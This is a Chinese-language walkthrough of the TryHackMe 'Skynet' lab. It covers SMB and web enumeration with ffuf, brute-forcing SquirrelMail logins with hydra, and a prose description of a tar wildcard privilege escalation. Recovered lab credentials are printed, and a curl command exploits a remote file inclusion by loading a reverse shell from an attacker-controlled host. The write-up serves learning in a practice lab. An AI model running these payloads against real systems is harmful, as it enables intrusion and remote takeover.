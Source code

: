 ```yaml
---
title: '[thm] Skynet'
date: 2024-12-27 14:26 +0800
categories: [hack,TryHackMe]
tags: []
---
```


## information

![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image.png>)
> port scan

开启了http,pop3,smb等服务，我们先关注smb服务。
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-1.png>)
获得了两个文件，一个attention.txt，一个log1.txt。内容大致如下：
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-2.png>)
从attention.txt获得了一个用户名**Miles Dyson**，log1.txt类似一个密码本，也可能是用户名，我们需要找一个地方验证。
一开始我尝试使用hydra爆破pop3服务验证用户名，但是并没有成功，pop3不能直接爆破。接下去看看网页服务。
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-3.png>)
开扫。
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-4.png>)
> ffuf -u 'http://skynet.thm/FUZZ' -w ~/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -fc 404 

（这里的命令为了快速复现已经做了修改）可以发现一个squirrelmail路径。
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-5.png>)
接下来使用先前得到的账号密码进行爆破。
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-6.png>)
成功获得账号密码**web/milesdyson:cyborg007haloterminator**
这个国外小哥的命名规律对我来说还是有点麻烦的，比如这位小哥名叫Miles Dyson，他的用户名是全称，但是在其他靶机，比如dc系列，会是设置成miles。就不是很搞得清楚。
而且这里还有个问题，我一开始是使用ffuf爆破密码，但是没有爆破出来，没整明白怎么一回事，可能ffuf不适合爆破密码吧。以后还是要注意多个工具交替验证，不能是熟悉某一个就只使用这个。
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-7.png>)
登录后获得了smb的密码。**smb/milesdyson:)s{A&2Z=F^n_E.B`**
这密码还怪强的。
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-8.png>)
下载这个import.txt
```she
╭─bamuwe@Mac ~/Desktop/skynet 
╰─$ cat important.txt                                                                                                                                                        130 ↵

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

又一个新路径
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-9.png>)
开扫～
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-10.png>)
> ffuf -u 'http://skynet.thm/45kra24zxs28v3yd/FUZZ' -w ~/Documents/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt

![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-11.png>)
![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-12.png>)
存在一个1day，是一个LFI，同时也指出，可以实现远程文件包含。
思路清晰：使用1day远程文件包含reverseshell，getshell。

## user1

![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/image-13.png>)
> curl 'http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.120.122/php-reverse-shell.php'

成功getshell

## root

![alt text](<../assets/img/2024-12-27-[thm] Skynet.assets/f79b3604191df22dd7416b46275f915d.png>)
简略写一下这个提权，大概就是有一个root用户的定时任务，会用tr -cf 备份/var/www/html下的所有文件，tr -cf有一个现成的提权漏洞，我们创建两个和参数名一样的文件，就可以达到运行指定参数的效果，再插入我们想要的恶意代码。

## conclusion

- 尝试多种工具交叉验证，可以大概率避免遗漏。
- 我觉得我的wp是不是写的有点太详细了，感觉浪费了太多时间在没有推进价值的事情上面
